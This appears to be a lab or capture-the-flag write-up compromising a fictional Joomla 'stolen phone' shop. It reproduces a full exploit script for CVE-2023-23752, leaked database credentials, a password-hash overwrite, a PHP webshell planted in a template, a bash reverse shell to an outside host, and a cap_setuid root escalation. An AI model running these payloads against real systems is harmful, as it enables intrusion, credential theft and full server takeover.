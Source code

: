 #+title: Management
#+author: gabriel

* intro
Recently, we have discovered a website that sells stolen phones. This site continues its illegal activities by connecting buyers with stolen devices. Your task is to find out who is behind this website and understand their activities in detail. If you have access to the website, this will be an important starting point for you. In this mission, you will use your online research and cyber surveillance skills to gather information about the website's operation and organizational structure. It is up to you to unravel this criminal network and bring those involved to justice. We wish you success!

* initial scan
#+begin_src sh
✮ sudo nmap -vv -sV -F -Pn 172.20.17.17

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   syn-ack ttl 63 MySQL 5.5.5-10.5.23-MariaDB-0+deb11u1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
#+end_src

** Fuzzing

#+begin_src sh
[22:30][]~ ✮ ffuf -u "http://phantomtechmarket.hv/FUZZ" -w /usr/share/wordlists/SecLis
ts/Discovery/Web-Content/raft-large-directories.txt -s
images
includes
modules
templates
language
cache
api
tmp
libraries
media
components
plugins
administrator
layouts
server-status
cli
#+end_src

this lab is running a cms, this time joomla ->
: http://phantomtechmarket.hv/administrator/manifests/files/joomla.xml
#+begin_src xml
<extension type="file" method="upgrade">
<name>files_joomla</name>
<author>Joomla! Project</author>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<copyright>(C) 2019 Open Source Matters, Inc.</copyright>
<license>GNU General Public License version 2 or later; see LICENSE.txt</license>
<version>4.2.7</version>
<creationDate>2023-01</creationDate>
<description>FILES_JOOMLA_XML_DESCRIPTION</description>
<scriptfile>administrator/components/com_admin/script.php</scriptfile>
<update>
<schemas>
<schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
<schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
</schemas>
</update>
<fileset>
<files>
<folder>administrator</folder>
<folder>api</folder>
<folder>cache</folder>
<folder>cli</folder>
<folder>components</folder>
<folder>images</folder>
<folder>includes</folder>
<folder>language</folder>
<folder>layouts</folder>
<folder>libraries</folder>
<folder>media</folder>
<folder>modules</folder>
<folder>plugins</folder>
<folder>templates</folder>
<folder>tmp</folder>
<file>htaccess.txt</file>
<file>web.config.txt</file>
<file>LICENSE.txt</file>
<file>README.txt</file>
<file>index.php</file>
</files>
</fileset>
<updateservers>
<server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
</updateservers>
</extension>
#+end_src

*vulnerable param?* ->
: /index.php?option=com_content&view=article&id=11:iphone-12-pro-max-the-pinnacle-of-power-and-performance-2&catid=2&Itemid=100

** joomla exploit
ruby exploit ->
#+begin_src sh
gem install httpx docopt paint
#+end_src

*script from exploitdb* ->
#+begin_src ruby
#!/usr/bin/env ruby

# Exploit
## Title: Joomla! < 4.2.8 - Unauthenticated information disclosure
## Exploit author: noraj (Alexandre ZANNI) for ACCEIS (https://www.acceis.fr)
## Author website: https://pwn.by/noraj/
## Exploit source: https://github.com/Acceis/exploit-CVE-2023-23752
## Date: 2023-03-24
## Vendor Homepage: https://www.joomla.org/
## Software Link: https://downloads.joomla.org/cms/joomla4/4-2-7/Joomla_4-2-7-Stable-Full_Package.tar.gz?format=gz
## Version: 4.0.0 < 4.2.8 (it means from 4.0.0 up to 4.2.7)
## Tested on: Joomla! Version 4.2.7
## CVE : CVE-2023-23752

# Vulnerability
## Discoverer: Zewei Zhang from NSFOCUS TIANJI Lab
## Date: 2023-02-24
## Discoverer website: https://nsfocusglobal.com/company-overview/nsfocus-security-labs/
## Title: Joomla Unauthorized Access
## CVE: CVE-2023-23752
## Patch: Update to >= 4.2.8
## References:
##   - https://nsfocusglobal.com/joomla-unauthorized-access-vulnerability-cve-2023-23752-notice/
##   - https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
##   - https://attackerkb.com/topics/18qrh3PXIX/cve-2023-23752
##   - https://nvd.nist.gov/vuln/detail/CVE-2023-23752
##   - https://vulncheck.com/blog/joomla-for-rce
##   - https://github.com/projectdiscovery/nuclei-templates/blob/main/cves/2023/CVE-2023-23752.yaml

# standard library
require 'json'
# gems
require 'httpx'
require 'docopt'
require 'paint'

doc = <<~DOCOPT
  #{Paint['Joomla! < 4.2.8 - Unauthenticated information disclosure', :bold]}

  #{Paint['Usage:', :red]}
    #{__FILE__} <url> [options]
    #{__FILE__} -h | --help

  #{Paint['Parameters:', :red]}
    <url>       Root URL (base path) including HTTP scheme, port and root folder

  #{Paint['Options:', :red]}
    --debug     Display arguments
    --no-color  Disable colorized output (NO_COLOR environment variable is respected too)
    -h, --help  Show this screen

  #{Paint['Examples:', :red]}
    #{__FILE__} http://127.0.0.1:4242
    #{__FILE__} https://example.org/subdir

  #{Paint['Project:', :red]}
    #{Paint['author', :underline]} (https://pwn.by/noraj / https://twitter.com/noraj_rawsec)
    #{Paint['company', :underline]} (https://www.acceis.fr / https://twitter.com/acceis)
    #{Paint['source', :underline]} (https://github.com/Acceis/exploit-CVE-2023-23752)
DOCOPT

def fetch_users(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/users?public=true"
  http.get(vuln_url)
end

def parse_users(root_url, http)
  data_json = fetch_users(root_url, http)
  data = JSON.parse(data_json)['data']
  users = []
  data.each do |user|
    if user['type'] == 'users'
      id = user['attributes']['id']
      name = user['attributes']['name']
      username = user['attributes']['username']
      email = user['attributes']['email']
      groups = user['attributes']['group_names']
      users << {id: id, name: name, username: username, email: email, groups: groups}
    end
  end
  users
end

def display_users(root_url, http)
  users = parse_users(root_url, http)
  puts Paint['Users', :red, :bold]
  users.each do |u|
    puts "[#{u[:id]}] #{u[:name]} (#{Paint[u[:username], :yellow]}) - #{u[:email]} - #{u[:groups]}"
  end
end

def fetch_config(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/config/application?public=true"
  http.get(vuln_url)
end

def parse_config(root_url, http)
  data_json = fetch_config(root_url, http)
  data = JSON.parse(data_json)['data']
  config = {}
  data.each do |entry|
    if entry['type'] == 'application'
      key = entry['attributes'].keys.first
      config[key] = entry['attributes'][key]
    end
  end
  config
end

def display_config(root_url, http)
  c = parse_config(root_url, http)
  puts Paint['Site info', :red, :bold]
  puts "Site name: #{c['sitename']}"
  puts "Editor: #{c['editor']}"
  puts "Captcha: #{c['captcha']}"
  puts "Access: #{c['access']}"
  puts "Debug status: #{c['debug']}"
  puts
  puts Paint['Database info', :red, :bold]
  puts "DB type: #{c['dbtype']}"
  puts "DB host: #{c['host']}"
  puts "DB user: #{Paint[c['user'], :yellow, :bold]}"
  puts "DB password: #{Paint[c['password'], :yellow, :bold]}"
  puts "DB name: #{c['db']}"
  puts "DB prefix: #{c['dbprefix']}"
  puts "DB encryption #{c['dbencryption']}"
end

begin
  args = Docopt.docopt(doc)
  Paint.mode = 0 if args['--no-color']
  puts args if args['--debug']

  http = HTTPX
  display_users(args['<url>'], http)
  puts
  display_config(args['<url>'], http)
rescue Docopt::Exit => e
  puts e.message
end
#+end_src

#+begin_src ruby
[22:45][]~ ✮ ruby l.rb http://172.20.17.17
Users
[411] admin (phantomtech) - admin@phantomtechmarket.hv - Super Users

Site info
Site name: PhantomTechMarket
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: joomla
DB password: bL3zgeLGXk8eYP3mtshtUgtc
DB name: joomla

DB prefix: joomla_
DB encryption 0
#+end_src


*Database access* ->
#+begin_src sh
[15:36][]~ ✮ mysql -h 172.20.42.23 -u joomla -p joomla
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 73
Server version: 5.5.5-10.5.23-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
+--------------------+
2 rows in set (0,23 sec)

mysql>
#+end_src


** database tables

#+begin_src sql
mysql> show tables;
+--------------------------------+
| Tables_in_joomla               |
+--------------------------------+
| joomla_action_log_config       |
| joomla_action_logs             |
| joomla_action_logs_extensions  |
| joomla_action_logs_users       |
| joomla_assets                  |
| joomla_associations            |
| joomla_banner_clients          |
| joomla_banner_tracks           |
| joomla_banners                 |
| joomla_categories              |
| joomla_contact_details         |
| joomla_content                 |
| joomla_content_frontpage       |
| joomla_content_rating          |
| joomla_content_types           |
| joomla_contentitem_tag_map     |
| joomla_extensions              |
| joomla_fields                  |
| joomla_fields_categories       |
| joomla_fields_groups           |
| joomla_fields_values           |
| joomla_finder_filters          |
| joomla_finder_links            |
| joomla_finder_links_terms      |
| joomla_finder_logging          |
| joomla_finder_taxonomy         |
| joomla_finder_taxonomy_map     |
| joomla_finder_terms            |
| joomla_finder_terms_common     |
| joomla_finder_tokens           |
| joomla_finder_tokens_aggregate |
| joomla_finder_types            |
| joomla_history                 |
| joomla_languages               |
| joomla_mail_templates          |
| joomla_menu                    |
| joomla_menu_types              |
| joomla_messages                |
| joomla_messages_cfg            |
| joomla_modules                 |
| joomla_modules_menu            |
| joomla_newsfeeds               |
| joomla_overrider               |
| joomla_postinstall_messages    |
| joomla_privacy_consents        |
| joomla_privacy_requests        |
| joomla_redirect_links          |
| joomla_scheduler_tasks         |
| joomla_schemas                 |
| joomla_session                 |
| joomla_tags                    |
| joomla_template_overrides      |
| joomla_template_styles         |
| joomla_ucm_base                |
| joomla_ucm_content             |
| joomla_update_sites            |
| joomla_update_sites_extensions |
| joomla_updates                 |
| joomla_user_keys               |
| joomla_user_mfa                |
| joomla_user_notes              |
| joomla_user_profiles           |
| joomla_user_usergroup_map      |
| joomla_usergroups              |
| joomla_users                   |
| joomla_viewlevels              |
| joomla_webauthn_credentials    |
| joomla_workflow_associations   |
| joomla_workflow_stages         |
| joomla_workflow_transitions    |
| joomla_workflows               |
+--------------------------------+
71 rows in set (0,22 sec)
#+end_src


hk015dgfnkpf19e004ga5s2k34

vtkorojlhi4j3uglf6ir9ofue3

** try update admin password
Connect to the database after get the credentials ->
#+begin_src sh
mysql -h 172.20.20.58 -u joomla -p joomla
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 34
Server version: 5.5.5-10.5.23-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
#+end_src

select all from users ->
#+begin_src sh
mysql> select * from joomla_users;
+-----+-------+-------------+----------------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------
+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+----
--+--------------+--------------+
| id  | name  | username    | email                      | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation
| params                                                                                                                                                  | lastResetTime | resetCount | otpKey | ote
p | requireReset | authProvider |
+-----+-------+-------------+----------------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------
+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+----
--+--------------+--------------+
| 411 | admin | phantomtech | admin@phantomtechmarket.hv | $2y$10$rIvuOHkuMdI.pLS5P3EHG.4/fME2A99FkJ3AVJKzS/hymo/.MM0oa |     0 |         1 | 2024-03-04 12:21:48 | 2024-03-06 10:32:48 | 0
#+end_src

update the password to admin1234ex ->
#+begin_src sql
UPDATE joomla_users
SET password = '$2a$10$1Y.g6ILuVtb4Xf2Wl0UCyujRa4HolTjNC1Fxa.LVKMIJHCs2MABKq',
    otpKey = '',
    otep = '',
    requireReset = 0
WHERE id = 411;
#+end_src

Include the webshell php at templates , site templates, index.php file with ->
: eval("system(\$_GET['cmd']);");

get the reverse shell after the webshell working ->
: bash -c 'bash -i >& /dev/tcp/10.8.58.60/4444 0>&1'

improve the rev shell to bash with python3 ->
: python3 -c 'import pty; pty.spawn("/bin/bash")'

** priv escalation
caps search ->
#+begin_src sh
data@debian:/var/www/html$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/bin/php8.3 cap_setuid=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
www-data@debian:/var/www/html$
#+end_src

get root shell with php8.3 ->
#+begin_src sh
/usr/bin/php8.3 -r 'posix_setuid(0); system("/bin/bash");'
#+end_src

*Last email ask question* ->
/var/www/inquiries.txt

Last question ->
: wc -l customers_purchases.txt

/usr/bin/php5 -r 'posix_setuid(0); system("/bin/bash");'
